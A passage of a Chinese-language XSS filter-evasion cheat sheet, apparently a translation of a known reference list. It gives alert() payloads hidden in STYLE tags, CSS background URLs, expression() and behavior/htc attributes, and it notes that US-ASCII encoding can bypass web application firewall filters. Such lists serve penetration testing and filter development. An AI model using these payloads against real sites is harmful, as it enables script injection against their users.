 STYLE标签（仅支持老版本的Netscape）
------------------------

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

```

* * *

使用background-image的style标签
--------------------------

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

```

* * *

使用background的style标签
--------------------

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

```

* * *

匿名html标签的属性
-----------

IE6.0 和使用了ix渲染引擎的Netscape 8.1+ 并不会关心你建立的html标签存在与否。只要它是以尖括号以及字符开始的。

```
<XSS STYLE="xss:expression(alert('XSS'))">

```

* * *

本地 htc 文件
---------

它有一个小的不同与上面的xss向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行javascript代码实现xss。

```
<XSS STYLE="behavior: url(xss.htc);">

```

* * *

US-ASCII编码
----------

US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的ASCII 编码用7bits代替8bits. 这个xss可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII编码方式。或者你自己去设置这种编码方式 。它是有用的去绕过web应用防火墙xss过滤比服务器端的过滤。Apache的 Tomcat是众所周知的 使用US-ASCII编码传输协议。
